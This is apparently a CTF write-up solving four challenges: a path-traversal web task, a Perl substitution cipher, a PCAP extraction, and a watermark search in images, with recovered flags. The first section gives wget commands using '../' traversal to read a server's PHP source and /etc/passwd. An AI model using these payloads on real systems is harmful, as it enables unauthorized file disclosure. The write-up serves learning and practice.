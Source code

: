 
## cat lovers
![](https://i.imgur.com/TNhtW8y.png)

a website with cats images and we can view the images with the below URLS
![](https://i.imgur.com/kK2YwH2.jpg)
https://catlovers.ctf.zone/images/001.jpg or https://catlovers.ctf.zone/image.php?file=001.jpg

```
wget https://catlovers.ctf.zone/image.php?file=../image.php
wget https://catlovers.ctf.zone/image.php?file=../../../../../../../../etc/passwd
```
we just have to not start out file with / so we can start with ../
![](https://i.imgur.com/bXlWRpH.png)
![](https://i.imgur.com/a7G0ooD.png)

>flag{59b0be67858dcaa4fdb5e509c9021e13}

---

## Perlfolg 
![](https://i.imgur.com/NOFBecg.png)

we figured that the same letter gives the same number therfore we can just make a list of each letter and its correspondence number then replace it by the following below snippet
```python=
import re
#echo abcdef0123456789{} | perl -ple 'y/a-z0-9/0-9a-z/;s,.,$&^"\x31",eg;s/./sprintf("%02d",ord($&))/eg;$/=reverse;tr/0-9/5812907643/'
letters='abcdeflg0123456789{}.................................'
cipheredLetters=re.split(' ','58 55 52 51 50 59 42 56 79 76 77 73 74 68 65 62 61 60 69 67')
cipher=re.split(' ','59 42 58 56 69 61 76 62 68 68 74 62 68 77 52 62 68 76 51 51 50 74 74 55 77 52 52 59 59 51 74 77 58 51 60 60 65 67')
results=''
for x in range(int(len(cipher))):
	for y in range(int(len(cipheredLetters))):
		if cipher[x] == cipheredLetters[y]:
			results=results+letters[y]
			# print(str(x)+' '+str(y)+' '+cipher[x]+' '+cipheredLetters[y]+' '+letters[y])
			break
print(results)
```
>flag{817554752c751dde44b2ccffd42ad996}

---


## My First PCAP
![](https://i.imgur.com/WRidk7P.png)

following tcp stream we found intresting data
```
tshark -r  myfirst.pcapng -Y 'tcp' -T fields -e data > tcpPayload
```
![](https://i.imgur.com/GhFk2mf.png)

```
7[5]
25[7]
24[9]
34[3]
5[{]
16[c]
26[b]
14[e]
31[1]
11[c]
17[8]
33[d]
38[}]
29[9]
10[f]
30[4]
32[f]
21[f]
36[a]
23[a]
12[b]
18[c]
6[e]
4[g]
9[7]
2[l]
20[a]
1[f]
15[f]
28[a]
3[a]
19[5]
37[4]
35[3]
13[1]
8[1]
27[b]
22[0]

```
using bash we can sort it 

![](https://i.imgur.com/n0uVetb.png)

>flag{e517fcb1efc8c5af0a97bba941fd33a4}


---


## North Korean Needle
![](https://i.imgur.com/dLuVCua.png)

giving us 1027ish images with diffrent hashes we must filter and find our flag

in https://insinuator.net/2015/07/redstar-os-watermarking/ we found that that OS leaves a watermark ending with 'EOF' so we can search all files and grep

![](https://i.imgur.com/x5HEmKs.png)

```
# 00000001.png - 00001024.png
for i in {1..1024}
do
	echo file = ${i}
	if [ ${#i} -eq 1 ] 
	then hexdump -s 80 -C 0000000${i}.png;
	elif [ ${#i} -eq 2 ] 
	then hexdump -s 80 -C 000000${i}.png;
	elif [ ${#i} -eq 3 ] 
	then hexdump -s 80 -C 00000${i}.png;
	elif [ ${#i} -eq 4 ] 
	then hexdump -s 80 -C 0000${i}.png;
	else echo no;
	fi
done

cat outputfile | grep -i eof -B 100 -A 10
```

file 881 was a hit

![](https://i.imgur.com/6iLZFZJ.png)
![](https://i.imgur.com/ubvkTvb.png)

>flag{8eb0ff120b1c7200cb37f335c67aafd3}






